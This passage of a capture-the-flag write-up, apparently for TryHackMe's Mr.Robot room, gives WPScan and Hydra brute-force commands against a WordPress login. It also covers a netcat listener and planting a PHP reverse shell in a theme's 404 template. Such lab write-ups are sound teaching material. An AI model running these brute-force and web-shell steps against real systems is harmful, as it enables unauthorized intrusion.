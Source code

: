   * Brute-force login-form (./login)
    * WPscan
      * ```wpscan --url http://10.10.206.141 -t 50 -U elliot -P ~/Desktop/TryHackMe/Mr.RobotCTF/src/fsociety_sorted_unique.txt```
    * Hydra (Other than WPscan)
      * ```hydra -f -V -l elliot -P ~/Desktop/TryHackMe/Mr.RobotCTF/src/fsociety_sorted_unique.txt -t 4 10.10.94.175 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR"```
  * There are several ways to obtain a reverse shell on WordPress version 4.3.1, one of them is inject malicious code to *WordPress theme*
  * Before activate a reverse shell, it is essential to know the IP address of your machine and start the port listener
    * Machine's IP address (tun0, a common VPN interface name, as I am using OpenVPN)

      ```Bash
        ifconfig tun0   # Linux
      ```

      ![Check IP address on Linux](./img/K2_7_check_local_ip.png)

    * Activate netcat port listener

      ```Bash
        nc -nlvp <PORT_NUMBER>
      ```

      Option    | Description
      ---       | ---
      -n        | Numeric-only IP addresses, no DNS
      -l        | Listen mode, for inbound connects
      -v        | Verbose mode, which output more often when certain events happen
      -p *PORT* | Local port number to work on

      ![Output when netcat port listener activated](./img/K2_8_ready_netcat_port_listener.png)

  * Reverse shell exploitation code in PHP can be found on path ```/usr/share/webshell/php``` on Kali, else can be found from original [link](http://pentestmonkey.net/tools/php-reverse-shell)
  * After modify the IP address variable to that of the machine to access the reverse shell, copy that to replace the source code of 404 page template
